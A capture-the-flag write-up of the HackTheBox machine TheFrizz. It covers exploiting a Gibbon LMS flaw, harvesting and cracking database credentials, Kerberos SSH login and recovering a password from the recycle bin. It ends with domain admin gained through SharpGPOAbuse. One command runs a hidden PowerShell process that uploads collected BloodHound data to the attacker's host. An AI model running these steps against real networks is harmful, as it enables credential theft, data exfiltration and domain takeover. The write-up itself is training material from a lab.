# TheFrizz -- HackTheBox (write-up)

**Difficulty:** Medium
**Box:** TheFrizz (HackTheBox)
**Author:** dkrxhn
**Date:** 2025-06-28

---

## TL;DR

### Gibbon LMS RCE (CVE-2023-45878) gave initial shell. MySQL creds in config led to user hash. Kerberos auth via kinit for SSH. Recycle bin recovery revealed second user creds with GPO editing rights. SharpGPOAbuse for domain admin.

---

## Target info

- Host: `frizzdc.frizz.htb`
- Domain: `frizz.htb`
- Services discovered: `22/tcp (ssh)`, `80/tcp (http)`, `88/tcp (kerberos)`, `389/tcp (ldap)`, `445/tcp (smb)`

---

## Enumeration



---

## Foothold

Ran CVE-2023-45878 exploit for Gibbon LMS:

```
https://github.com/davidzzo23/CVE-2023-45878/blob/main/CVE-2023-45878.py
```



Found MySQL config at `C:\xampp\htdocs\Gibbon-LMS\config.php`:



`MrGibbonsDB:MisterGibbs!Parrot!?1`

Queried the database:



`f.frizzle:067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03`

Cracked:



`f.frizzle:Jenni_Luvs_Magic23`

---

## Lateral movement

Normal SSH failed. Needed Kerberos authentication:



```bash
sudo ntpdate frizzdc.frizz.htb
kinit f.frizzle@FRIZZ.HTB
klist
ssh f.frizzle@frizz.htb -K
```



`kinit` worked because OpenSSH GSSAPI only checks the default Kerberos cache. Using `getTGT.py` with a custom cache file failed, but `kinit` populates the default cache.

Ran BloodHound collection:

```powershell
cd C:\Temp
Start-Process powershell -ArgumentList "-NoP -W Hidden -Command Invoke-WebRequest -Uri http://10.10.14.207:80 -Method POST -InFile .\20250419221420_BloodHound.zip"
```

Restored a 7z file from the recycle bin, extracted it, and found a base64 password in an `.ini` file:

```
IXN1QmNpZ0BNZWhUZWQhUgo=
```

Decoded: `!suBcig@MehTed!R` -- password for `m.schoolbus`, who had GPO editing privileges.



---

## Privilege escalation

Created and linked a new GPO:

```powershell
New-GPO -Name GPO-New | New-GPLink -Target "OU=DOMAIN CONTROLLERS,DC=FRIZZ,DC=HTB" -LinkEnabled Yes
```



Used SharpGPOAbuse to add `m.schoolbus` as local admin:

```powershell
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount M.SchoolBus --GPOName GPO-new --force
```







---

## Lessons & takeaways

- When SSH GSSAPI fails with `getTGT.py`, try `kinit` which populates the default Kerberos cache
- Always check the recycle bin for deleted files containing credentials
- SharpGPOAbuse is effective when a user has GPO editing rights
- RunasCs is useful for lateral movement when WinRM is not available
---
